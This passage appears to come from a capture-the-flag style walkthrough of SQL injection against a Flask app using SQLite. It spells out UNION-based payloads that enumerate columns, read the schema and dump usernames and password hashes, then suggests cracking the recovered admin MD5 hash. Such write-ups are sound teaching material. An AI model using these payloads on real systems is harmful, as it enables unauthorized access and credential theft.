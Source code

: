 ![](https://cdn-images-1.medium.com/max/2000/1*JAdG1sJCfW1CsMd0I42bCw.png)

Since Flask uses SQLite database by default, let’s see how we can move forward with this injection.

[You can find the SQLite Injection payload here.](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)

First we will try to enumerate the number of columns with `order by` query.

    " order by 5 -- - 
    " union select null,null,null,null; -- -

![](https://cdn-images-1.medium.com/max/2000/1*q9Tr_tZP9dTB06Gq-QabaA.png)

We can see that there are 4 columns and we should be able to insert our payload there. Let’s try if we could enumerate the database version.

    " union select sqlite_version(),null,null,null -- -

![](https://cdn-images-1.medium.com/max/2000/1*li7Ofo2Snv9nCWj6kUBHVw.png)

We got the database version as well. Now let’s enumerate the database structure.

    " union select sql,null,null,null from sqlite_schema;

![](https://cdn-images-1.medium.com/max/2070/1*MEVTi_sv_73nffFDPzzs6g.png)

List down the current table name from the database.

    " union select tbl_name,null,null,null FROM sqlite_master; WHERE name='user'-- -

![](https://cdn-images-1.medium.com/max/2000/1*NkZpe_dYMgFyQb_sTuVf4Q.png)

Let’s group the table name so that we can enumerate other tables as well. [You can learn more about it here.](https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf)

    " union select group_concat(name),null,null,null FROM sqlite_schema WHERE type='table'; -- -

![](https://cdn-images-1.medium.com/max/2080/1*htPriciRxIax5SixKqrgHw.png)

We can see an interesting table called users. Let’s enumerate the columns on it. We can find more interesting column names called **username** and **password** in a table **users**.

    " union select sql,null,null,null FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name='users'; -- -

![](https://cdn-images-1.medium.com/max/2070/1*ilHSOO9XalEufIe6QhKR7w.png)

Let’s dump the database **users**.

    " union select username,password,null,null FROM users; -- -

![](https://cdn-images-1.medium.com/max/2034/1*W_z6igr9b-feqk_mXEfGtg.png)

We can find the username **admin** and password **0c090c365fa0559b151a43e0fea39710**.

Since MD5 represents sequence of 32 hexadecimal digits. Let’s see if we can find its clear text value on hashes.com. You can also try it with hashcat.
